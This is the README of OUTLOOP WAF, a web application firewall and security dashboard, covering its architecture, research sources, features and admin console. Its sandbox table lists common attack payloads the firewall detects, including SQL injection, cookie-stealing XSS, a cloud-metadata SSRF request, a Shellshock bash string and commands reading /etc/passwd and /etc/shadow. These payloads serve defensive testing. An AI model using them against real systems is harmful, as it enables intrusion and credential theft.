<div align="center">

# 🛡️ OUTLOOP WAF

### *Next-Generation Web Application Firewall & Security Operations Platform*

<br/>

[](https://www.python.org/)
[](https://fastapi.tiangolo.com/)
[](https://github.com/obstinix/outloop-waf/tree/main/tests)
[](https://outloop-waf.vercel.app)
[](LICENSE)
[](https://github.com/obstinix/outloop-waf/releases)
[](https://github.com/obstinix/outloop-waf/commits/main)
[](https://outloop-waf.vercel.app/#rules)
[](https://owasp.org/Top10/)
[]()
[]()

<br/>

> **Security is a process, not a product. OUTLOOP makes it both.**

<br/>

[](https://outloop-waf.vercel.app)

</div>

---

## 🚀 Release Notes — v1.0.0 (New Stable Release)

> **This is version 1.0.0** — the first stable production release. The previous version (v0.x) was an initial terminal UI mockup prototype.

### What's New in v1.0.0

- **High-Density SOC Theme** — Upgraded layout to a professional dark-mode dashboard inspired by Linear and Cloudflare
- **Serverless Static Asset Fallbacks** — Configured robust fallback paths at `/static/...` and `/api/static/...` with explicit MIME types to satisfy strict CDN/browser `X-Content-Type-Options: nosniff` headers under Vercel
- **Python 3.9+ Compatibility** — Resolved local ASGI connection thread crashes by updating threat streams to handle `asyncio.TimeoutError` correctly
- **Rate Limiter Hardening** — Sliding-window IP rate limiting with configurable burst thresholds
- **All 44 Tests Passing** — Full backend security test suite verified and green

---

## Table of Contents

- [Overview](#overview)
- [Live Dashboard Links](#live-dashboard-links)
- [System Architecture](#system-architecture)
- [Research Foundation](#research-foundation)
- [Feature Analysis & Metrics](#feature-analysis--metrics)
- [Feature Breakdown](#feature-breakdown)
- [Attack Vectors & Protection Mechanisms](#attack-vectors--protection-mechanisms)
- [Technology Stack](#technology-stack)
- [API Documentation](#api-documentation)
- [External Integrations](#external-integrations)
- [Deployment & Infrastructure](#deployment--infrastructure)
- [Getting Started](#getting-started)
- [Project Structure](#project-structure)
- [Contributing & Bug Reports](#contributing--bug-reports)
- [License](#license)

---

## Overview

**OUTLOOP WAF** is an edge-native Web Application Firewall and Security Operations Center (SOC) platform. It acts as a perimeter proxy gateway, intercepting and inspecting every inbound HTTP request before it reaches downstream application logic. Threats are detected, logged, and blocked in under 5ms — with zero latency impact on clean traffic.

### Core Value Propositions

| Pillar | Description |
|--------|-------------|
| 🛡️ **Zero-Trust Inspection** | Every request is inspected — no allowlist by default |
| ⚡ **Sub-5ms Detection** | Multi-pass regex engine with no perceptible latency |
| 🔬 **Interactive Sandbox** | Live payload testing via browser — no curl required |
| 📡 **Real-Time SSE Telemetry** | Threat events pushed to dashboard over Server-Sent Events |
| 🧠 **57 Active Signatures** | SQLi, XSS, SSRF, RCE, LFI, Path Traversal, Command Injection |
| ☁️ **Serverless-Native** | Vercel edge deployment — zero infrastructure to manage |
| 🔒 **Admin Command Center** | IP banning, live stats, rule inspection via authenticated API |
| 📊 **Live SOC Dashboard** | Three.js animated attack globe + real-time severity counters |

---

## Live Dashboard Links

| Section | Live URL | Purpose |
|---------|----------|---------|
| 🖥️ **SOC Overview** | [outloop-waf.vercel.app](https://outloop-waf.vercel.app/) | Real-time packet & threat counters |
| 🔬 **Payload Sandbox** | [/#playground](https://outloop-waf.vercel.app/#playground) | Interactive attack payload simulator |
| 📡 **Threat Stream** | [/#threats](https://outloop-waf.vercel.app/#threats) | Live SSE threat telemetry feed |
| 🔎 **Signature Explorer** | [/#rules](https://outloop-waf.vercel.app/#rules) | Browsable WAF rule database (57 signatures) |
| 🔄 **Pipeline Diagram** | [/#pipeline](https://outloop-waf.vercel.app/#pipeline) | Request lifecycle visualization |
| ⚙️ **Admin Workspace** | [/#admin](https://outloop-waf.vercel.app/#admin) | IP ban control & stats console |
| 💻 **GitHub Repository** | [obstinix/outloop-waf](https://github.com/obstinix/outloop-waf) | Source code, issues, contributions |

---

## System Architecture

### 1. High-Level System Overview



---

### 2. Request Processing Pipeline


---

### 3. Threat Detection Engine Flow



---

### 4. In-Memory State Model



---

### 5. API Gateway Structure



---

### 6. Frontend–Backend Interaction Model



---

### 7. Security Layer Integration

```mermaid
flowchart TD
    subgraph LAYER1["Layer 1: Network Perimeter"]
        VCL[Vercel Edge Network\nDDoS absorption · TLS termination]
    end

    subgraph LAYER2["Layer 2: Rate Limiting"]
        RL[rate_limit_evaluator\nSliding-window per IP\n20 req/burst default]
    end

    subgraph LAYER3["Layer 3: IP Reputation"]
        BL[blocklist_perimeter_check\nAdmin-managed deny list\nPersistent in-memory store]
    end

    subgraph LAYER4["Layer 4: Payload Inspection"]
        DEC[Multi-Pass URL Decoder\n4 normalization passes]
        REG[Regex Signature Engine\n57 compiled patterns]
    end

    subgraph LAYER5["Layer 5: Application Logic"]
        APP[FastAPI Route Handlers\nBusiness Logic\nAuthenticated via X-Admin-Key]
    end

    LAYER1 -->|Clean traffic| LAYER2
    LAYER1 -->|Rate-exceeded| BLOCK1([403])
    LAYER2 -->|OK| LAYER3
    LAYER2 -->|Exceeded| BLOCK1
    LAYER3 -->|OK| LAYER4
    LAYER3 -->|Banned IP| BLOCK1
    LAYER4 -->|Clean| LAYER5
    LAYER4 -->|Threat| BLOCK2([403 + SSE Event])

    style LAYER1 fill:#0d1117,stroke:#30363d
    style LAYER2 fill:#0d1117,stroke:#e3b341
    style LAYER3 fill:#0d1117,stroke:#f0883e
    style LAYER4 fill:#0d1117,stroke:#e94560
    style LAYER5 fill:#0d1117,stroke:#3fb950
```

---

### 8. Vercel Deployment Infrastructure

```mermaid
graph LR
    subgraph GH["GitHub Repository\nobstinix/outloop-waf"]
        SRC[Source Code\nmain branch]
        VJ[vercel.json\nRouting config]
        REQ[requirements.txt\nPython deps]
    end

    subgraph VCL["Vercel Platform"]
        direction TB
        CI[Build Step\npip install dependencies]
        FUNC[Serverless Function\napi/index.py - Python runtime]
        CDN[Global CDN\nStatic assets: HTML · CSS · JS]
        EDGE[Edge Network\n100+ PoPs worldwide]
    end

    subgraph DNS["Production Endpoints"]
        LIVE[outloop-waf.vercel.app]
        API_D[/api/* routes to Function]
        STAT[/* routes to CDN]
    end

    SRC -->|git push main| CI
    VJ -->|Route rules| CI
    REQ -->|pip install| CI
    CI --> FUNC
    CI --> CDN
    FUNC --> EDGE
    CDN --> EDGE
    EDGE --> LIVE
    LIVE --> API_D
    LIVE --> STAT
```

---

### 9. SSE Real-Time Data Flow



---

### 10. Authentication & Admin Authorization Flow

```mermaid
flowchart TD
    ADMIN([Admin User]) --> INPUT[Enter X-Admin-Key\nin Dashboard Workspace]
    INPUT --> REQ_A[POST /api/admin/stats\nHeader: X-Admin-Key: ***]
    REQ_A --> MW_A{WAF Middleware\nInspect Request}
    MW_A -->|Payload clean| AUTH{Validate\nX-Admin-Key}
    AUTH -->|Invalid / Missing| E401[401 Unauthorized\nAccess denied]
    AUTH -->|Valid| PRIV{Requested\nOperation}
    PRIV -->|Read Stats| STATS[Return engine metrics\nrequests · blocked · uptime]
    PRIV -->|Ban IP| BAN[Add IP to blocklist\nPersist in-memory store]
    PRIV -->|List Rules| RULES[Return 57 signatures\nID · Name · Severity · Pattern]
    STATS & BAN & RULES --> RESP_A([200 OK + JSON payload])
    E401 --> END([Client receives error])

    style AUTH fill:#1a1a2e,stroke:#e94560
    style E401 fill:#2d1b1b,stroke:#e94560
```

---

## Research Foundation

The architecture and detection patterns in OUTLOOP WAF are grounded in established security research and industry standards:

| # | Reference | Type | Relevance |
|---|-----------|------|-----------|
| 1 | [OWASP Top Ten 2021](https://owasp.org/Top10/) | Industry Standard | Primary threat taxonomy — SQLi (A03), XSS (A03), SSRF (A10) detection priorities |
| 2 | [NIST SP 800-44 v2: Securing Web Servers](https://csrc.nist.gov/publications/detail/sp/800-44/version-2/final) | NIST Standard | Foundational reference for web server hardening, header validation, and access control |
| 3 | [NIST SP 800-95: Guide to Secure Web Services](https://csrc.nist.gov/publications/detail/sp/800-95/final) | NIST Standard | Informs the API gateway security model and authentication pattern for admin routes |
| 4 | [RFC 7230 – HTTP/1.1 Message Syntax and Routing](https://datatracker.ietf.org/doc/html/rfc7230) | IETF RFC | Defines header parsing rules used to detect CRLF injection and header overflow attacks |
| 5 | [RFC 2697 – A Single Rate Three Color Marker](https://datatracker.ietf.org/doc/html/rfc2697) | IETF RFC | Token-bucket algorithm basis for the rate_limit_evaluator module |
| 6 | [CWE Top 25 Most Dangerous Software Weaknesses (2023)](https://cwe.mitre.org/top25/) | MITRE Standard | CWE-89 (SQLi), CWE-79 (XSS), CWE-22 (Path Traversal) directly map to WAF rule categories |
| 7 | Clarke, J. (2009). *SQL Injection Attacks and Defense*. Syngress. | Book | Foundation for the 13 SQL injection patterns including UNION-based, blind, and time-based SQLi |
| 8 | Cox, R. (2007). [Regular Expression Matching Can Be Simple and Fast](https://swtch.com/~rsc/regexp/regexp1.html) | Research Paper | Basis for compiled-regex approach over interpreted matching; informs sub-5ms detection performance |
| 9 | Grossman, J. (2006). *XSS Attacks: Cross Site Scripting Exploits and Defense*. Syngress. | Book | Informs the three XSS detection classes: Reflected, Stored, and DOM-based pattern fingerprints |
| 10 | [OWASP WAF Evaluation Criteria v1.0](https://owasp.org/www-project-web-application-firewall-evaluation-criteria/) | OWASP Guide | Benchmark used to validate signature coverage across attack categories and false-positive targets |
| 11 | Ristic, I. (2010). *ModSecurity Handbook*. Feisty Duck. | Book | Reference implementation for WAF middleware architecture; informs the rule chaining model |
| 12 | Zalewski, M. (2011). *The Tangled Web: A Guide to Securing Modern Web Applications*. No Starch Press. | Book | Informs browser-side trust model; basis for multi-pass decoder's evasion-mitigation strategy |

---

## Feature Analysis & Metrics

### Threat Distribution (Active Signatures by Category)



### Blocked vs Allowed Requests (Simulated Traffic Analysis)



### Detection Severity Profile



### Threat Frequency Trend (Simulated 7-Day Window)



---

## Feature Breakdown

### 🔬 Interactive Payload Sandbox

The **Payload Sandbox Simulator** (`/#playground`) is OUTLOOP's most distinctive feature — a browser-native WAF testing environment that removes the need for curl or Postman.

**Attack Presets Available:**

| Preset | Example Payload | WAF Rule Triggered |
|--------|-----------------|-------------------|
| SQL Injection | `' OR 1=1; --` | SQLi-001 (CRITICAL) |
| Cross-Site Scripting | `<script>alert(document.cookie)</script>` | XSS-003 (HIGH) |
| SSRF / Metadata | `http://169.254.169.254/latest/meta-data/` | SSRF-001 (HIGH) |
| Shellshock RCE | `() { :; }; /bin/bash -i` | RCE-001 (CRITICAL) |
| Local File Inclusion | `../../../../etc/passwd%00` | LFI-002 (HIGH) |
| Path Traversal | `../../windows/system32/cmd.exe` | PATH-004 (MEDIUM) |
| Command Injection | `127.0.0.1; cat /etc/shadow` | CMD-001 (CRITICAL) |

The sandbox renders a live **5-stage pipeline visualization** showing which inspection stage flagged the payload: Inbound HTTP → Multi-Decoder → Regex Match → Policy Layer → Final Verdict.

---

### 📡 Real-Time Threat Operations Stream

The **Threat Stream** (`/#threats`) uses **Server-Sent Events (SSE)** — a lightweight, one-directional push protocol — to deliver blocked exploit records to the dashboard without polling.

**SSE Event Schema:**

```json
{
  "rule_id": "SQLi-007",
  "severity": "CRITICAL",
  "description": "UNION SELECT injection detected",
  "source_ip": "203.0.113.42",
  "timestamp": "2026-06-18T12:34:56.789Z",
  "request_id": "550e8400-e29b-41d4-a716-446655440000"
}
```

The stream also maintains a live **Severity Distribution Counter** (CRITICAL / HIGH / MEDIUM / LOW / OTHER) that updates in real time as events arrive.

---

### 🔎 Rule Intelligence Explorer

The **Signature Explorer** (`/#rules`) provides a searchable, filterable view of all 57 compiled WAF signatures. Features include:

- Filter by severity: `CRITICAL`, `HIGH`, `MEDIUM`, `LOW`
- View raw regex pattern for each rule
- Admin authentication required to reveal pattern strings (security-by-obscurity layer)

The rules database is defined in `api/waf/rules.py` and pre-compiled at application startup for maximum throughput.

---

### 🔄 Request Validation Pipeline Visualizer

The **Architecture Panel** (`/#pipeline`) renders an interactive diagram of the full request lifecycle, from client boundary to downstream route invocation. Users can understand exactly how their requests are being inspected and why a 403 was issued.

Pipeline stages shown:
1. `CLIENT INBOUND CONNECTION`
2. `EDGE MIDDLEWARE LAYER` — `rate_limit_evaluator`, `blocklist_perimeter_check`
3. `WAF ASSESSMENT ENGINE` — `multi_pass_url_decoder`, `regex_signature_evaluator`
4. `BLOCK PIPELINE` (403) or `FORWARD PIPELINE` (200)

---

### ⚙️ Admin Command Center

The **Workspace** (`/#admin`) is a terminal-aesthetic command console secured by `X-Admin-Key` header authentication.

| Command | Action |
|---------|--------|
| `waf admin stats` | Returns total requests, blocked count, uptime, active rules |
| `waf blocklist show` | Lists all banned IPs with reason and timestamp |
| Ban an IP | POST to `/api/admin/ban` with target IP + reason |
| Remove ban | DELETE from blocklist via API |

